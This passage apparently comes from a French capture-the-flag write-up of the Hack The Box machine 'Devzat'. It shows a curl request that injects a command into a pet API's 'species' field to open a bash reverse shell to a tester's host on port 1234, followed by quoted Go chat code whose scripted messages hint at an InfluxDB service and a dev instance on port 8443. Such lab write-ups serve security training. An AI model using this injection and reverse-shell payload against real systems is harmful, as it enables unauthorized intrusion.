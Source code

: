 L'injection de commande saute aux yeux nous allons modifier la request web pour ajouter
un ; et une autre commande.

```
❯ curl 'http://pets.devzat.htb/api/pet' \
  --data-raw '{"name":"aze","species":"cat;/bin/bash -c \"/bin/bash -i >& /dev/tcp/10.10.14.6/1234 0>&1\""}' \
  --compressed \
  --insecure
```

## **PRIVESC**

Nous avons maintenant access aux codes source des deux sites web ainsi
que du chat.
Dans le code du système de chat, nous voyons des messages de bienvenue si nous prenons le user admin, catherine ou patrick.

```
if strings.ToLower(u.name) == "patrick" {
    u.writeln("admin", "Hey patrick, you there?")
    u.writeln("patrick", "Sure, shoot boss!")
    u.writeln("admin", "So I setup the influxdb for you as we discussed earlier in business meeting.")
    u.writeln("patrick", "Cool :thumbs_up:")
    u.writeln("admin", "Be sure to check it out and see if it works for you, will ya?")
    u.writeln("patrick", "Yes, sure. Am on it!")
    u.writeln("devbot", "admin has left the chat")
} else if strings.ToLower(u.name) == "admin" {
    u.writeln("admin", "Hey patrick, you there?")
    u.writeln("patrick", "Sure, shoot boss!")
    u.writeln("admin", "So I setup the influxdb for you as we discussed earlier in business meeting.")
    u.writeln("patrick", "Cool :thumbs_up:")
    u.writeln("admin", "Be sure to check it out and see if it works for you, will ya?")
    u.writeln("patrick", "Yes, sure. Am on it!")
} else if strings.ToLower(u.name) == "catherine" {
    u.writeln("patrick", "Hey Catherine, glad you came.")
    u.writeln("catherine", "Hey bud, what are you up to?")
    u.writeln("patrick", "Remember the cool new feature we talked about the other day?")
    u.writeln("catherine", "Sure")
    u.writeln("patrick", "I implemented it. If you want to check it out you could connect to the local dev instance on port 8443.")
    u.writeln("catherine", "Kinda busy right now :necktie:")
    u.writeln("patrick", "That's perfectly fine :thumbs_up: You'll need a password I gave you last time.")
    u.writeln("catherine", "k")
    u.writeln("patrick", "I left the source for your review in backups.")
    u.writeln("catherine", "Fine. As soon as the boss let me off the leash I will check it out.")
    u.writeln("patrick", "Cool. I am very curious what you think of it. See ya!")
    u.writeln("devbot", "patrick has left the chat")
```
